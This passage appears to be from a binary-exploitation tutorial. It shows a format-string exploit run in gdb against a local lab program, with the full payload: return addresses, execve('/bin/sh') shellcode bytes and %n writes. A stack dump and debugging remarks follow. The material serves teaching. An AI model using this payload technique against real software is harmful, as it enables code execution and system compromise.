 Next, 2 bytes.
```bash
>>> 0xffff - 0xcee0
12575
>>>
```

```bash
gef➤  r $(python -c 'print "\xbc\xcf\xff\xff" + "\xbe\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%52929u" + "%6$n" + "%12575u" + "%7$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xbc\xcf\xff\xff" + "\xbe\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%52929u" + "%6$n" + "%12575u" + "%7$n"')
��������1�Ph//shh/bin��PS��

gef➤  x/100wx $esp - 0xfc
0xffffcec0:	0xffffced8	0xffffd265	0x000000c8	0x080491d4
0xffffced0:	0x00000000	0x00000000	0xffffcfbc	0xffffcfbe
0xffffcee0:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffcef0:	0xb0e18953	0x2580cd0b	0x32393235	0x36257539
0xffffcf00:	0x31256e24	0x35373532	0x24372575	0x0000006e
0xffffcf10:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf20:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf30:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf40:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf50:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf60:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf70:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf80:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf90:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfa0:	0xffffcfc0	0x00000000	0x00000000	0xf7ddbee5
0xffffcfb0:	0xf7fa8000	0xf7fa8000	0x00000000	0xffffcee0
0xffffcfc0:	0x00000000	0xffffd054	0xffffd060	0xffffcfe4
0xffffcfd0:	0xf7fa8000	0x00000000	0xffffd038	0x00000000
0xffffcfe0:	0xf7ffd000	0x00000000	0xf7fa8000	0xf7fa8000
0xffffcff0:	0x00000000	0x748c3291	0x306ef481	0x00000000
0xffffd000:	0x00000000	0x00000000	0x00000002	0x080490a0
0xffffd010:	0x00000000	0xf7fe7cd4	0xf7fe2410	0x0804c000
0xffffd020:	0x00000002	0x080490a0	0x00000000	0x080490d6
0xffffd030:	0x080491b6	0x00000002	0xffffd054	0x08049220
0xffffd040:	0x08049290	0xf7fe2410	0xffffd04c	0x0000001c
gef➤  
```

You can see that the shellcode address was written. BUT, for me, it doesn't work. So, now, I'm trying to solve the problem: the program jumps to shellcode but doesn't execute it properly...

Okay, I solved it. The problem was in shellcode. It stops working :) So, I just took [another one](http://shell-storm.org/shellcode/files/shellcode-585.php "http://shell-storm.org/shellcode/files/shellcode-585.php") from the [shellcode database](http://shell-storm.org/shellcode/ "http://shell-storm.org/shellcode/").

Here, you need to do the same calculations that were above, but the shellcode will be after format string things.
